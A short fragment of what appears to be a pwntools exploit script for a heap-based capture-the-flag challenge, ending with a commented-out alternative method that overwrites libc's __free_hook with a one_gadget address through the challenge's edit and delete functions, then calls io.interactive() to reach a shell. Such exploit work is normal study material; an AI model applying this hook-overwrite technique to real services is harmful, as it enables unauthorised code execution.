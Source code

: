 ```
#-------------方法二
# free_hook = libc_base + libc.symbols["__free_hook"]
# one_gadget = libc_base + 0x4f2a5 # 0x4f302 0x10a2fc
# log.success("free_hook:" + hex(free_hook))
# log.success("one_gadget:" + hex(one_gadget))
# editbook(1, p64(free_hook) * 2)
# editbook(2, p64(one_gadget))
# deletebook(2)


io.interactive()


```

